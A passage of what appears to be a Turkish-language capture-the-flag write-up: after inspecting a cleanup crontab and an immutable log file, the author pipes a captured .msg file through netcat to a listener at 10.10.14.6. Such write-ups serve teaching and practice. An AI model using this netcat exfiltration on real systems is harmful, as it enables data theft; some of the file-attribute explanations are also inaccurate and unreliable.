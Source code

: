 ```
www-data@investigation:/usr/local/investigation$ crontab -l
...[snip]...
*/5 * * * * date >> /usr/local/investigation/analysed_log && echo "Clearing folders" >> /usr/local/investigation/analysed_log && rm -r /var/www/uploads/* && rm /var/www/html/analysed_images/*
```

Sorun şu ki, bir şekilde analysed_log sabit olarak ayarlanmış:

```
www-data@investigation:/usr/local/investigation$ lsattr analysed_log 
-u--i---------e----- analysed_log
```

Bu yüzden cron ona yazmaya çalıştığında başarısız olur:

---


`lsattr analysed_log` komutu, **analysed_log** dosyasının dosya özelliklerini listelemek için kullanılır. Bu komut, dosyanın sahip olduğu **dosya sisteminin özelliklerini** (attributelerini) gösterir.

Özellikle, dosyaların üzerine yazma, silme veya değiştirme gibi işlemleri engelleyen bazı özellikler olabilir. Örneğin:

- **i**: Dosya, değiştirilmeden yalnızca okunabilir. Yani, üzerine yazılamaz veya silinemez.
- **a**: Dosyaya yalnızca ekleme yapılabilir, üzerine yazılamaz.
- **d**: Dosya silinemez.
- **e**: Dosya bir ext4 dosya sistemi üzerinde "extent" (genişletilmiş) özellikleri kullanıyordur.

Bu komutla, dosyanın üzerinde herhangi bir dosya sistemi kısıtlamasının olup olmadığını kontrol edebilirsiniz. Eğer dosya **"immutable"** (değiştirilemez) gibi bir özellik taşıyorsa, cron işi dosyaya yazma yapamayabilir.


---

```
www-data@investigation:/usr/local/investigation$ date >> /usr/local/investigation/analysed_log
bash: /usr/local/investigation/analysed_log: Operation not permitted
```


Komutlar `&&` ile birleştirildiği için, ilk komut başarısız olduğunda işlem durur ve temizlik işlemi de bozulur.

Ben de .msg dosyasını `nc` (Netcat) kullanarak dışarıya çıkaracağım, önce kendi makinemde bir listener başlatacağım ve ardından dosyayı geri göndereceğim.

```
www-data@investigation:/usr/local/investigation$ cat Windows\ Event\ Logs\ for\ Analysis.msg | nc 10.10.14.6 443
```

---
Bu komut, `"Windows Event Logs for Analysis.msg"` dosyasının içeriğini alır ve **10.10.14.6** IP adresindeki **443 numaralı porta** gönderir.

---
